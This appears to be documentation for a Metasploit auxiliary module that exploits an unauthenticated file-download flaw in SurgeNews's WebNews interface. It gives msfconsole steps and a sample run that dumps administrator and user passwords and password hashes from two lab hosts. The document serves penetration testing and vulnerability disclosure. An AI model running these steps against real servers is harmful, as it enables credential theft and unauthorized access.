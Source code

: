 ## Description

  This module exploits a vulnerability in the WebNews web interface of SurgeNews on TCP ports 9080 and 8119 which allows unauthenticated users to download arbitrary files from the software root directory; including the user database, configuration files and log files.

  This module extracts the administrator username and password, and the usernames and passwords or password hashes for all users.


## Vulnerable Application

  [SurgeNews](http://netwinsite.com/surgenews/) is a high performance, fully threaded, next generation News Server with integrated WebNews interface.

  This module has been tested successfully on:

  * SurgeNews version 2.0a-13 on Windows 7 SP 1.
  * SurgeNews version 2.0a-12 on Ubuntu Linux.

  Installers:

  * [SurgeNews Installers](http://netwinsite.com/cgi-bin/keycgi.exe?cmd=download&product=surgenews)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/scanner/http/surgenews_user_creds`
  3. Do: `set rhosts [IP]`
  4. Do: `run`
  5. You should get credentials


## Scenarios

  ```
  msf > use auxiliary/scanner/http/surgenews_user_creds 
  msf auxiliary(surgenews_user_creds) > set rhosts 172.16.191.133 172.16.191.166
  rhosts => 172.16.191.133 172.16.191.166
  msf auxiliary(surgenews_user_creds) > run

  [+] Found administrator credentials (admin:admin)

  SurgeNews User Credentials
  ==========================

   Username   Password  Password Hash                           Admin
   --------   --------  -------------                           -----
   admin      admin                                             true
   qwerty@bt            {ssha}BuFLjIFUUSy1IltX3AuN420qV2ZFU7EL  false
   user@bt              {ssha}HFTkDsnNlLiaHN+sIS9VQarVGGXmYISn  false

  [+] Credentials saved in: /root/.msf4/loot/20170616185817_default_172.16.191.133_surgenews.user.c_633569.txt
  [*] Scanned 1 of 2 hosts (50% complete)
  [+] Found administrator credentials (test:test)
  [+] Found user credentials (zxcv@win-sgbsd5tqutq:zxcv)

  SurgeNews User Credentials
  ==========================

   Username              Password  Password Hash                           Admin
   --------              --------  -------------                           -----
   asdf@win-sgbsd5tqutq            {ssha}8ytixKjxf3kaBc6T471R1Re/C8MUnKnF  false
   test                  test                                              true
   test@win-sgbsd5tqutq            {ssha}Vw8EkFxAJuiZrb98Fz+sdr/yEEmBZ2Jc  false
   test@win-sgbsd5tqutq            {ssha}j4teSf4CgA3+XVRJscFHyqoOQJRoLg4K  false
   zxcv@win-sgbsd5tqutq  zxcv                                              false

  [+] Credentials saved in: /root/.msf4/loot/20170616185817_default_172.16.191.166_surgenews.user.c_077983.txt
  [*] Scanned 2 of 2 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

